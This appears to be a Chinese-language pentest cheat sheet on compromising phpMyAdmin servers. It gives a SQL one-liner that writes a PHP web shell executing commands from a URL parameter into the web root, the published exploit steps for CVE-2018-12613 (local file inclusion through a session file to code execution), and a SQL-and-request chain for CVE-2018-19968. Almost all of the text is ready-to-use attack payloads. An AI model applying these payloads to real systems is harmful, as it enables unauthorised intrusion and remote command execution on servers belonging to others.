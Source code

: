 # 高权限直接写shell
```
select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/getshell.php";
```
需要满足的条件
- 网站的绝对路径。
- 拥有可写权限
- 是union注入(如果是注入的话)


# CVE-2018-12613 本地文件包含 Version: 4.8.0, 4.8.1
https://www.exploit-db.com/exploits/40185
```
# Exploit Title: phpMyAdmin 4.8.1 - Local File Inclusion to Remote Code Execution
# Date: 2018-06-21
# Exploit Author: VulnSpy
# Vendor Homepage: http://www.phpmyadmin.net
# Software Link: https://github.com/phpmyadmin/phpmyadmin/archive/RELEASE_4_8_1.tar.gz
# Version: 4.8.0, 4.8.1
# Tested on: php7 mysql5
# CVE : CVE-2018-12613

1. Run SQL Query : select '<?php phpinfo();exit;?>'
2. Include the session file :
http://1a23009a9c9e959d9c70932bb9f634eb.vsplate.me/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/php/sessions/sess_11njnj4253qq93vjm9q93nvc7p2lq82k
```


# CVE-2018-19968 远程代码执行文件包含  Version: 4.8.0 ~ 4.8.3
```
#执行SQL
CREATE DATABASE foo;
CREATE TABLE foo.bar ( baz VARCHAR(100) PRIMARY KEY );
INSERT INTO foo.bar SELECT '<?php phpinfo(); ?>';
#访问
/chk_rel.php?fixall_pmadb=1&db=foo
#执行SQL，注意这里***换成phpmyadmin的cookie
INSERT INTO `pma__column_info`SELECT '1', 'foo', 'bar', 'baz', 'plop',
'plop', 'plop', 'plop',
'../../../../../../../../tmp/sess_***','plop';
#访问
/tbl_replace.php?db=foo&table=bar&where_clause=1=1&fields_name[multi_edit][][]=baz&clause_is_unique=1
```


其他一些低版本的https://www.cnblogs.com/xishaonian/p/7627125.html
